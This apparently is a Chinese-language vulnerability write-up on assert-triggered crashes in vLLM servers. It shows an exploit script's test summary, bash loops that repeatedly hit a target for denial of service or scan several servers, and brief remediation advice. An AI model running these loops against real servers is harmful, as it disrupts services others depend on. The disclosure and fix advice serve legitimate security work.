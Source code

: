 ### 测试总结
```
============================================================
SUMMARY:
============================================================
logprobs_assert               : VULNERABLE
streaming_logprobs_assert     : Safe
max_tokens_assert            : VULNERABLE
max_tokens_none_assert       : Safe
combined_assert_attack       : Safe
final_res_assert             : Safe
concurrent_assert            : Safe

Total: 2/7 tests found vulnerabilities

[!] WARNING: Server appears to be vulnerable to assert-based attacks!
[!] These vulnerabilities can lead to service disruption.
```

## 实际攻击场景

### 1. 服务拒绝攻击(DoS)
```bash
# 持续发送触发assert的请求
while true; do
    python vllm_assert_exploit.py http://target:8000
    sleep 1
done
```

### 2. 服务探测
```bash
# 通过assert响应判断服务器类型和版本
python vllm_assert_exploit.py http://target:8000 | grep "VULNERABLE"
```

### 3. 批量测试
```bash
# 测试多个服务器
for server in server1:8000 server2:8000 server3:8000; do
    echo "Testing $server"
    python vllm_assert_exploit.py http://$server
done
```

## 防护建议

### 立即修复
1. 将所有assert语句替换为显式的条件检查
2. 使用适当的异常处理机制
3. 避免在生产环境中暴露内部错误信息
